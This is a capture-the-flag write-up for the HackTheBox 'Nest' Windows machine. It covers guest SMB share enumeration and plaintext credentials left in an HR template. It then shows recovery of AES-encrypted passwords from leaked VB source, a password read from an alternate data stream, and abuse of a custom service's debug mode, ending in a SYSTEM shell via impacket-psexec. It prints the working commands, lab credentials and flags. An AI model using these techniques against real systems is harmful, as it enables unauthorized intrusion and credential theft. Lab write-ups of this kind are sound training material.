










Box: Windows
Level: Easy
### Index
1. Box Info 
2. Initial Nmap Enumeration
3. [SMB Enumeration - Port 445](#SMB%20Enumeration%20-%20Port%20445)
	3.1  [Finding the source code.](#Finding%20the%20source%20code.)]
	3.2  [Interesting Credentials for C.Smith User](#Interesting%20Credentials%20for%20C.Smith%20User)
	3.3  [Identifying hash using John](#Identifying%20hash%20using%20John)
	3.4  [Source Code Review - Decrypting Hash From Source Code](#Source%20Code%20Review%20-%20Decrypting%20Hash%20From%20Source%20Code)
4.  [User Flag using `smbclient`](#User%20Flag%20using%20`smbclient`)
5. [Privilege Escalation](#Privilege%20Escalation)
	5.1  [smbmap - Trying to execute command using valid creds](#smbmap%20-%20Trying%20to%20execute%20command%20using%20valid%20creds)
	5.2  [smbmap - Non Recursive Path Listing](#smbmap%20-%20Non%20Recursive%20Path%20Listing)
	5.3  [Getting Alternate Data Stream (ADS) using smbclient](#Getting%20Alternate%20Data%20Stream%20(ADS)%20using%20smbclient)
	5.4  [Telnet Debug Mode to change Dir and Read File](#Telnet%20Debug%20Mode%20to%20change%20Dir%20and%20Read%20File)
	5.5  [dnSpy - Analyzing Exe](#dnSpy%20-%20Analyzing%20Exe)	
### Box Info
```
Nest is an easy difficulty Windows machine featuring an SMB server that permits guest access. The shares can be enumerated to gain credentials for a low privileged user. This user is found to have access to configuration files containing sensitive information. Another user&amp;amp;#039;s password is found through source code analysis, which is used to gain a foothold on the box. A custom service is found to be running, which is enumerated to find and decrypt Administrator credentials.
```

### Initial Nmap Enumeration

```
# nmap -p- --min-rate=2000 -Pn -T4 -sC -sV nest.htb
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
4386/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```

Further Nmap Enumeration. We got only two open ports.

```
# nmap -p445 --min-rate=2000 -Pn -T2 -sS -A -sV nest.htb
PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?
```

```
# nmap -p445 -f -mtu 8 --reason -sV -sC -sS -Pn nest.htb

PORT    STATE SERVICE       REASON          VERSION
445/tcp open  microsoft-ds? syn-ack ttl 127

Host script results:
| smb2-time: 
|   date: 2024-08-31T01:52:29
|_  start_date: 2024-08-31T01:36:27
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
```

### SMB Enumeration - Port 445
```
# smbclient --no-pass -L //nest.htb                                                          

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Data            Disk      
	IPC$            IPC       Remote IPC
	Secure$         Disk      
	Users           Disk      
```

Connecting Data Share and exploring it.

```
# smbclient -U 'Guest' -p '' //nest.htb/Data
Password for [WORKGROUP\Guest]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Wed Aug  7 18:53:46 2019
  ..                                  D        0  Wed Aug  7 18:53:46 2019
  IT                                  D        0  Wed Aug  7 18:58:07 2019
  Production                          D        0  Mon Aug  5 17:53:38 2019
  Reports                             D        0  Mon Aug  5 17:53:44 2019
  Shared                              D        0  Wed Aug  7 15:07:51 2019
  
smb: \Shared\Maintenance\> get "Maintenance Alerts.txt"
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance Alerts.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)

smb: \Shared\Templates\HR\> get "Welcome Email.txt"
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (3.0 KiloBytes/sec) (average 3.0 KiloBytes/sec)

```

```
# cat Maintenance\ Alerts.txt Welcome\ Email.txt                          
There is currently no scheduled maintenance workWe would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location: 
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the 
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR  
```

So we got one TempUser credentials but first let's Connecting `Users` Share without it.
```
# smbclient -U 'Guest' -p '' //nest.htb/Users
Password for [WORKGROUP\Guest]:
smb: \> dir
  .                                   D        0  Sat Jan 25 18:04:21 2020
  ..                                  D        0  Sat Jan 25 18:04:21 2020
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019

5242623 blocks of size 4096. 1839937 blocks available
```

Looking at `TempUser`, I found one empty text document. None of the other folders were accessible.

```
# smbclient -U 'Tempuser' -p 'welcome2019' //nest.htb/Users
Password for [WORKGROUP\Tempuser]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jan 25 18:04:21 2020
  ..                                  D        0  Sat Jan 25 18:04:21 2020
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019

                5242623 blocks of size 4096. 1840199 blocks available
smb: \> cd TempUser
smb: \TempUser\> dir
  .                                   D        0  Wed Aug  7 18:55:56 2019
  ..                                  D        0  Wed Aug  7 18:55:56 2019
  New Text Document.txt               A        0  Wed Aug  7 18:55:56 2019
```

Trying to Put/upload  `test.txt` file and got Access Denied
```
smb: \TempUser\> put test.txt
NT_STATUS_ACCESS_DENIED opening remote file \TempUser\test.txt
```

Trying to access `Data` share again with the TempUser Credentials
```
# smbclient -U 'Tempuser' -p 'welcome2019' //nest.htb/Data 
Password for [WORKGROUP\Tempuser]:
smb: \> cd IT
smb: \IT\> dir
  .                                   D        0  Wed Aug  7 18:58:07 2019
  ..                                  D        0  Wed Aug  7 18:58:07 2019
  Archive                             D        0  Mon Aug  5 18:33:58 2019
  Configs                             D        0  Wed Aug  7 18:59:34 2019
  Installs                            D        0  Wed Aug  7 18:08:30 2019
  Reports                             D        0  Sat Jan 25 19:09:13 2020
  Tools                               D        0  Mon Aug  5 18:33:43 2019
```

Now we have access of some other folders/directories. 

```
smb: \IT\Configs\Adobe\> mget *
Get file editing.xml? yes
getting file \IT\Configs\Adobe\editing.xml of size 246 as editing.xml (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
Get file Options.txt? yes
getting file \IT\Configs\Adobe\Options.txt of size 0 as Options.txt (0.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
Get file projects.xml? yes
getting file \IT\Configs\Adobe\projects.xml of size 258 as projects.xml (1.8 KiloBytes/sec) (average 1.3 KiloBytes/sec)
Get file settings.xml? yes
getting file \IT\Configs\Adobe\settings.xml of size 1274 as settings.xml (9.3 KiloBytes/sec) (average 3.4 KiloBytes/sec)
smb: \IT\Configs\Adobe\> 
```

#### Finding the source code.

Upon login with the TempUser credentials I notice that the `dir` command was throwing  the `NT_STATUS_ACCESS_DENIED` Error but upon reviewing the `config.xml` file which I have downloaded earlier, I notice the presence of directory name `Carl`.

```
smb: \IT\> dir
NT_STATUS_ACCESS_DENIED listing \IT\*
```



Following to that I just `cd Carl` on the SMB Share
```
smb: \IT\> cd Carl
smb: \IT\Carl\> dir
  .                                   D        0  Wed Aug  7 15:42:14 2019
  ..                                  D        0  Wed Aug  7 15:42:14 2019
  Docs                                D        0  Wed Aug  7 15:44:00 2019
  Reports                             D        0  Tue Aug  6 09:45:40 2019
  VB Projects                         D        0  Tue Aug  6 10:41:55 2019
```

Now we have few folders to Explore. I got the Source Code of `RUScanner`. Let's open it with VSCode.

```
smb: \IT\Carl\VB Projects\WIP\RU\> dir
  .                                   D        0  Fri Aug  9 11:36:45 2019
  ..                                  D        0  Fri Aug  9 11:36:45 2019
  RUScanner                           D        0  Wed Aug  7 18:05:54 2019
  RUScanner.sln                       A      871  Tue Aug  6 10:45:36 2019

                5242623 blocks of size 4096. 1840097 blocks available
smb: \IT\Carl\VB Projects\WIP\RU\> recurse ON
smb: \IT\Carl\VB Projects\WIP\RU\> mget *
Get directory RUScanner? yes

```

### Interesting Credentials for C.Smith User

While exploring the SMB share, I found `RU_Config.xml` file which has the encrypted password for the user `C.Smith`.
```
smb: \IT\Configs\RU Scanner\> dir
  .                                   D        0  Wed Aug  7 16:01:13 2019
  ..                                  D        0  Wed Aug  7 16:01:13 2019
  RU_config.xml                       A      270  Thu Aug  8 15:49:37 2019
```

`RU_Config.xml`
```
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

#### Identifying hash using John
The password is encrypted here and I tried to identify the hash using john. I got the following results.
```
# john --wordlist=/usr/share/wordlists/rockyou.txt hashid.txt
Using default input encoding: UTF-8
Loaded 1 password hash (cryptoSafe [AES-256-CBC])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:05 DONE (2024-08-31 04:06) 0g/s 2862Kp/s 2862Kc/s 2862KC/s 02102265315..*7¡Vamos!
Session completed
```

Sound like we are going to deal with `AES-256-CBC` Encryption. I tried to crack it with john and hashcat but failed. 
### Source Code Review - Decrypting Hash From Source Code

Once the source code was downloaded, I first ran the code and prepare the `Debug` Build.


Running the `DbPof.exe` file.



All Right, Let's look at what it is doing;

We have a `Decrypt` and `DecryptString` Function present in the Utils.vb file. 



But looking at `Module1.vb` file, I found another interesting code.


All Right, I struggled to find the correct place to decrypt my hash but than I realized that I can just copy the `RU_Config.xml` in the same folder where the EXE is located and run the EXE again. Because, the `main()` function Loads the `Config` file and then decrypt the password here. All I need to add here is the dump the `DecryptString(Config.Password)` in the console and re-build the project. Here's I'm dumping the Password in the console and re-build the code in VSCode.



Getting the password.



### User Flag using `smbclient`

Now I tried evil-winrm and impacket-psexec but none of the Share was writable so I couldn't drop the payload. But I was able to login to the smbshare using the above password with the user `C.Smith`

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Nest.htb]
└─# smbclient -U 'C.Smith' -p 'xRxRxPANCAK3SxRxRx' //nest.htb/Users
Password for [WORKGROUP\C.Smith]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jan 25 18:04:21 2020
  ..                                  D        0  Sat Jan 25 18:04:21 2020
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019

                5242623 blocks of size 4096. 1840097 blocks available
smb: \> cd C.Smith
smb: \C.Smith\> dir
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       34  Fri Aug 30 22:16:30 2024

smb: \C.Smith\> get user.txt
getting file \C.Smith\user.txt of size 34 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \C.Smith\> exit

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Nest.htb]
└─# cat user.txt 
51e166731b4dd52ab80c7f67c742f77c                                                    
```

Got the User Flag

### Privilege Escalation

I got the user flag but getting winPEAS.exe or anything on the box is still something I will have to figure out because none of the share is writable. I tried to get a shell using `impacket-psexec` and didn't work

```
# impacket-psexec c.smith:xRxRxPANCAK3SxRxRx@10.10.10.178      
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.178.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'Data' is not writable.
[-] share 'Secure$' is not writable.
[-] share 'Users' is not writable.
```

Look at the following `smbmap` results for `C.Smith` users. Same result for `TempUser`. None of the Share has Write Access. Evil-WinRm is not working as well.
```
# smbmap -u 'C.Smith' -p 'xRxRxPANCAK3SxRxRx' -H 10.10.10.178      
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.10.178:445        Name: nest.htb                  Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
[*] Closed 1 connections
```

#### smbmap - Trying to execute command using valid creds

```
# smbmap -u'C.Smith' -p 'xRxRxPANCAK3SxRxRx' -d NEST.HTB -x 'net user' -H 10.10.10.178

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
[*] Closed 1 connections                                                                                                     
```

I tried to remove `-d` option and it did not work.

#### smbmap - Non Recursive Path Listing 

```
# smbmap -u'C.Smith' -p 'xRxRxPANCAK3SxRxRx' -r 'Users/C.Smith/HQK Reporting' -H 10.10.10.178
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.10.178:445        Name: nest.htb                  Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 READ ONLY
        Users                                                   READ ONLY
        ./UsersC.Smith/HQK Reporting
        dr--r--r--                0 Wed Jul 21 14:47:05 2021    .
        dr--r--r--                0 Wed Jul 21 14:47:05 2021    ..
        dr--r--r--                0 Fri Aug  9 08:18:42 2019    AD Integration Module
        fr--r--r--                0 Wed Jul 21 14:47:12 2021    Debug Mode Password.txt
        fr--r--r--              249 Wed Jul 21 14:47:14 2021    HQK_Config_Backup.xml
[*] Closed 1 connections                                                                                                     
```

#### Getting Alternate Data Stream (ADS) using smbclient
Okay so It was possible to list the files from the specific folders non-recursively. The task here is to identify the `Alternate Data Stream` on the Debug mode Password.txt file.

```
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Wed Jul 21 02:47:12 PM 2021 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> 
```

We got our `Alternate Data Streat (ADS)` on the Debug Mode Password.txt file. Let's try to read the file with 'ADS' string
```
smb: \C.Smith\HQK Reporting\> more "Debug Mode Password.txt:Password"

WBQ201953D8w 
/tmp/smbmore.Zc7Hcj (END)

```

Great we got the Debug mode password. Looking at the nmap scan we know that The port 4386 may allow the telnet connection and the `DEBUG <PASSWORD>` in the nmap scan result can indicate the same thing. Let's telnet on port 4386 and enabled the DEBUG mode.

#### Telnet Debug Mode to change Dir and Read File

```
# telnet nest.htb 4386
Trying 10.10.10.178...
Connected to nest.htb.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w         

Debug mode enabled. Use the HELP command to view additional commands that are now available
```

Upon exploring the directories using telnet, I found the hash for the administrator. The hash has a same format AES-256-CBC, just like how we did for getting the password for the user `C.Smith`.

```
# telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available

>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

>SETDIR ..              # Using SETDIR command I got access of the one directory above

Current directory set to HQK
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>setdir ldap               # Got into LDAP Directory

Current directory set to ldap
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: ldap
>showquery 2                # The SHOWQUERY command was printing the file content.

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

Okay so the `SHOWQUERY` command was printing the file content and by going one directory above, and switching to ldap directory, i got the hash for the administrator. 

#### dnSpy - Analyzing Exe
Upon Opening the `HqkLDAP.exe` with dnSpy, I found the following peace of code in the main moduel.



It is similar to one we saw earlier when trying to obtained the password for user `C.Smith`. This time, I'm going to bake CyberChef recipe to get the administrator password.



First we are going to get the PBKDF2 Key. we are going to use this key to decrypt the administrator hash that we got in `Ldap.conf` using `SHOWQUERY 2` command above.



Great we got Admin Password. Let's try out `impacket-psexec` to get shell
```
# impacket-psexec administrator:XtH4nkS4Pl4y1nGX@10.10.10.178                                            
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file HZHqBUgl.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service YwIJ on 10.10.10.178.....
[*] Starting service YwIJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Users\Administrator\Desktop> type root.txt
d147148492ab3459e6321b1b2d13d2e2
```

Get your Root flag.